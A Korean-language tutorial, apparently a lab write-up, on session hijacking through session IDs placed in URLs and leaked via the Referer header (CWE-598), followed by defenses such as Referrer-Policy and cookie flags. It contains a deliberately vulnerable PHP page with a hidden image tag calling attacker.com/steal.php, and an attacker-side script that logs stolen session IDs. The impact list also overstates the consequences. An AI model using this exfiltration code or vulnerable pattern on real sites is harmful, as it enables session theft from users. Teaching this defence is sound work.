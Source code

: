 # 3. 세션 하이재킹

## 개요

- 세션 하이재킹
    - 정의
        - 민감한 정보(예: 세션 ID, 토큰 등)를 URL의 쿼리 문자열로 전달할 경우
        - 정보가 브라우저 히스토리, 로그 파일, Referer 헤더 등을 통해 유출되는 취약점
        - 해당 글의 예시는 CWE-598 기반의 Referer 헤더나 매개변수에 대한 시나리오 위주
            - CWE-598 : Information Exposure Through Query Strings in GET Request
    - 발생 원인
        - HTTPS 미사용되어 암호화 되지 않는 문제
            - 암호화되지 않은 HTTP로 세션 ID가 전송되면, 공격자가 네트워크 상에서 스니핑 동작 가능
        - 세션 ID를 URL 파라미터로 전달하는 세션 ID 관리 방식의 문제
        - 세션 식별자의 예측하여 공격될 경우
            
            
        
- 공격 종류
    - Referer 통해 외부 노출
        - 피해 사이트가 세션 ID를 URL에 포함시켜 전달
        - 이 과정에서 악성 링크나 이미지 태그 같은 존재할 때
        - 브라우저는 외부 요청 시 Referer 헤더에 전체 URL 포함하여 송신
        

- 취약점 영향
    - CSRF와 동일하게 인증 없이 상대 시스템에서 제어 가능한 설정 가능
        - 민간함 정보를 출력
        - 서버에 임의 코드 실행
        - 데이터 변조

---

## 공격 시라니오

1. Referer 통해 외부 노출
    - 참고 사항
        - 사용자가 3-1.php 페이지에 로그인한 상태
        - 이후 악성 페이지(3-1-1.php)의 이미지 태그를 통해 비밀번호 변경 요청을 자동 전송
    - 참고 파일
        - 3-1. php
        - 3-1-1.php
    - 공격 시나리오
        1. 사이트에 접속하여 인증 및 세션을 유지한 상태
        2. 이 사이트에 게시판이 존재하여 외부 도메인으로 연결된 <img> 태그가 존재하는 페이지를 생성된 상태
        
        ```php
        <?php
        // Referrer-Policy 설정이 없음 → Referer 헤더 유출 허용
        $sessionId = $_GET['sessionid'] ?? 'NO_SESSION';
        $postId = $_GET['id'] ?? '1';
        
        // 게시글 데이터 (공격자가 작성한 글 포함)
        $posts = [
            '1' => '<h2>정상적인 글입니다</h2><p>안녕하세요!</p>',
            '5' => '<h2>공격자 글</h2><p>쿠폰 드림! <img src="http://attacker.com/steal.php" style="display:none"></p>'
        ];
        ?>
        <!DOCTYPE html>
        <html>
        <head>
            <title>게시글 보기</title>
        </head>
        <body>
            <h1>세션 ID: <?= htmlspecialchars($sessionId) ?></h1>
        
            <div class="post">
                <?= $posts[$postId] ?? '글이 존재하지 않습니다.' ?>
            </div>
        </body>
        </html>
        ```
        
        1. 브라우저는 이미지를 요청하면서 Referer 헤더에 현재 페이지 URL을 포함하여 전송
        2. 공격자 서버는 Referer에서 세션 ID를 추출하여 저장
        
        ```php
        <?php
        $referer = $_SERVER['HTTP_REFERER'] ?? 'NO_REFERER';
        
        // 유출된 Referer 로그 저장 (세션 ID 포함됨)
        file_put_contents("stolen_sessions.txt", $referer . PHP_EOL, FILE_APPEND);
        
        // 응답은 이미지처럼 보이게
        header("Content-Type: image/png");
        echo base64_decode("iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8Xw8AAnsB9TYqzqgAAAAASUVORK5CYII=");
        
        ```
        

---

## 대책

- URL에 세션 ID 포함하지 않은 로직으로 동작
    - 세션은 쿠키로만 전달
- Referer 통해 외부 노출되지 않게 다음과 같이 설정
    - Referrer-Policy: strict-origin 또는 no-referrer 설정
        
        ```php
        header("Referrer-Policy: no-referrer");
        
        ```
        
    - 예제(3-2.php, 1. Referer 통해 외부 노출 시나리오 사용)
- 세션 하이재킹
    - Secure, HttpOnly, SameSite 설정 + 세션 재발급 및 짧은 만료시간 설정